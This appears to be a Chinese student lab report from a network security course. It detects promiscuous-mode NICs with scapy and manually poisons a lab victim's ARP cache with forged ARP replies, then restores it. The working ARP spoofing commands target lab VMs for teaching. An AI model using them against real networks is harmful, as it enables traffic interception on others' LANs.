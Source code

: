 # 网络监听



## 网络拓扑

![topological](img/topological.jpg)

如图所示网络中的节点基本信息如下：

* 攻击者主机(Kali-Attacker)
    * `08:00:27:aa:f0:71` / `eth0`
    * `172.16.111.123`
* 靶机(Kali-Victim)
    * `08:00:27:bc:fe:e9` / `eth0`
    * `172.16.111.134`
* 网关
    * `08:00:27:4a:b3:d7` / `enp0s9`
    * `172.16.111.1`



## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

安装成功：

![scapy_install_success](img/scapy_install_success.jpg)

## 实验一：检测局域网中的异常终端

```bash
# 在靶机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![victim_eth0](img/victim_eth0.jpg)


```bash
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

![attacker_scapy_start](img/attacker_scapy_start.jpg)

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.134")
```

![scapy_pkt](img/scapy_pkt.jpg)

```bash
# 回到靶机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![start_victim_promisc](img/start_victim_promisc.jpg)


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.134")
```

![difference_attacker](img/difference_attacker.jpg)

```bash
# 在靶机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![victim_promisc_off](img/victim_promisc_off.jpg)

查阅资料，`promiscping` 命令会发送 `ARP who-has` 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，靶机才能收到这个数据包。

在靶机上开启`Wireshark`抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功



## 实验二：手工单步“毒化”目标主机的 `ARP` 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

### 获取当前局域网的网关 MAC 地址

```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![experiment2_1](img/experiment2_1.jpg)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

![gateway_mac_get](img/gateway_mac_get.jpg)

### 伪造网关的 `ARP` 响应包
```bash
# 攻击者主机准备发送给靶机 172.16.111.134
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.134", hwdst="08:00:27:bc:fe:e9")

# 发送上述伪造的 ARP 响应数据包到靶机
sendp(arpspoofed)
```

![forge_ARP](img/forge_ARP.jpg)

此时在靶机上查看 `ARP` 缓存会发现网关的 MAC 地址**已被「替换」为攻击者主机的 MAC 地址**

```bash
ip neigh
```

![repalce_success](img/repalce_success.jpg)

### 恢复靶机的 `ARP` 缓存记录(回到攻击者主机上的 scapy 交互式终端继续执行命令。)
```python
## 伪装网关给靶机发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:4a:b3:d7", pdst="172.16.111.134", hwdst="08:00:27:bc:fe:e9")
sendp(restorepkt1, count=100, inter=0.2)
```

![recovery](img/recovery.jpg)

此时在靶机上准备“刷新”网关 `ARP` 记录。

```bash
## 在靶机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看靶机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![victim_recovery](img/victim_recovery.jpg)



## 需要注意的问题：

1. 注意Kali_Attacker配置Host-Only网络，否则安装不了东西。
2. 勤备份，出错了容易修改。



## 参考链接：

- [网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos)

